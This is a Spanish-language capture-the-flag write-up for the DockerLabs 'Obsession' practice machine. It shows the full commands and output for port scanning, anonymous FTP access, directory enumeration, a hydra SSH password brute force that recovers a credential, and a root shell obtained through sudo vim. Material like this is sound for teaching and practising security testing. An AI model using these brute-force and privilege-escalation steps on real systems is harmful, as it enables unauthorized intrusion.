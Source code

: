 ```yaml
---
title: Obsession
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-04
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-obsession/obsession_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ftp
  - ssh
  - http
  - tcp
  - fuzzing web
  - data leaks
  - password attacks
  - sudo abuse
  - information gathering
  - vulnerability exploitation
  - misconfiguration exploitation
  - web analysis
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.046 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.046/0.046/0.046/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///, 80/open/tcp//http///   Ignored State: closed (65532)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ sudo nmap -sCV -p21,22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:127.0.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:05:bd:a9:97:27:a5:ad:46:53:82:15:dd:d5:7a:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBICJkT7eK4HDkyFx9Sdx52QBKAlOxD2HlDN9dnPLkFaFXa2pI5bRqIRDmJLAkBTyyx2/ifDUCyl0uGyB2ExHvQ8=
|   256 0e:07:e6:d4:3b:63:4e:77:62:0f:1a:17:69:91:85:ef (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFYEzfToqDm7m3dRLdvXwcIhNZzbIgwquUJvnII1jjJn
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Russoski Coaching
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Utilizo WhatWeb para obtener detalles del servidor web. E identifico un correo electrónico que podría ser útil para ataques dirigidos o como pista.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], Email[russoski@dockerlabs.es], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Title[Russoski Coaching]
```

---
## Misconfiguration Exploitation

El servidor tiene habilitado el servicio FTP. Intento una conexión utilizando el usuario ```anonymous```, lo que resulta exitoso.

Al listar el contenido disponible en el servidor FTP, encuentro dos archivos de texto: ```chat-gonza.txt``` y ```pendientes.txt```. Descargo ambos archivos para su análisis local.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ ftp anonymous@127.17.0.2
Connected to 127.17.0.2.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: anonymous
230 Login successful.
```

![](assets/img/dockerlabs-writeup-obsession/obsession1.png)
![](assets/img/dockerlabs-writeup-obsession/obsession2.png)

---
## Web Analysis

Durante el análisis inicial del servicio web, detecto una página aparentemente funcional.

![](assets/img/dockerlabs-writeup-obsession/obsession3.png)

El formulario cercano al final no parece realizar ninguna acción. Al inspeccionar el código fuente, encuentro un comentario que contiene una pista clave.

![](assets/img/dockerlabs-writeup-obsession/obsession4.png)
![](assets/img/dockerlabs-writeup-obsession/obsession5.png)

Utilizo dirb para enumerar directorios ocultos en el servidor web.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ dirb http://127.17.0.2
---- Scanning URL: http://127.17.0.2/ ----
==> DIRECTORY: http://127.17.0.2/backup/
==> DIRECTORY: http://127.17.0.2/important/
+ http://127.17.0.2/index.html (CODE:200|SIZE:5208)
+ http://127.17.0.2/server-status (CODE:200|SIZE:16029)
```

De estos resultados, el directorio ```/backup/``` contiene un archivo interesante ```backup.txt```. El contenido de este archivo confirma la sospecha inicial.

![](assets/img/dockerlabs-writeup-obsession/obsession6.png)
![](assets/img/dockerlabs-writeup-obsession/obsession7.png)

---
## Vulnerability Exploitation

Con el nombre de usuario ```russoski```, realizo un ataque de fuerza bruta contra el servicio SSH.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

![](assets/img/dockerlabs-writeup-obsession/obsession8.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/obsession:-$ ssh russoski@127.17.0.2
russoski@127.17.0.2's password: iloveme

russoski@kali:~$ id
uid=1001(russoski) gid=1001(russoski) groups=1001(russoski),100(users)
```

---
## Privilege Escalation

```terminal
russoski@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
russoski:x:1001:1001:Juan Carlos,,,,Aesthetics Over Everything:/home/russoski:/bin/bash
```

El usuario ```russoski``` puede ejecutar el comando ```/usr/bin/vim``` como ```root```.

```terminal
russoski@kali:~$ sudo -l
Matching Defaults entries for russoski on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/vim
```

Consultando [GTFOBins](<https://gtfobins.github.io/gtfobins/vim/#sudo>), encuentro que vim puede ser utilizado para ejecutar una shell con privilegios elevados cuando se invoca con sudo.

```terminal
russoski@kali:~$ sudo /usr/bin/vim -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```